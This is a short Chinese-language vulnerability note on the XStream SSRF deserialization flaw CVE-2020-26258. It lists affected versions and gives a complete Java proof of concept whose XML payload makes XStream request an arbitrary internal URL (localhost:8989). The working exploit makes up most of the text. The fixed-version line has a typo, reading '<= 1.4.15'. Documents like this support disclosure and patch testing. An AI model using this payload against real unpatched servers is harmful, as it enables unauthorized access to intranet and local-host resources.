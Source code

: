 # 

# XStream SSRF 反序列化漏洞 CVE-2020-26258

## 漏洞描述

Xstream 是 Java 类库，用来将对象序列化成 XML (JSON) 或反序列化为对象。XStream 是一款开源软件，允许在 BSD 许可证的许可下分发。

参考链接：

- https://raw.githubusercontent.com/jas502n/CVE-2020-26259/main/CVE_2020_26258.java

## 漏洞影响

影响版本：

```
Xstream < = 1.4.14
```

修复版本：

```
Xstream < = 1.4.15
```

## 漏洞复现

poc：

```
import com.thoughtworks.xstream.XStream;

/*
CVE-2020-26258: A Server-Side Forgery Request can be activated unmarshalling
with XStream to access data streams from an arbitrary URL referencing a resource in an intranet or the local host.
All versions until and including version 1.4.14
https://x-stream.github.io/CVE-2020-26258.html
Security framework of XStream not explicitly initialized, using predefined black list on your own risk.
*/

public class CVE_2020_26258 {
    public static void main(String[] args) {
        String ssrf_xml = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='javax.activation.URLDataSource'>\n" +
                "            <url>http://localhost:8989/internal/:</url>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";
        XStream xstream = new XStream();
        xstream.fromXML(ssrf_xml);
    }
}
```


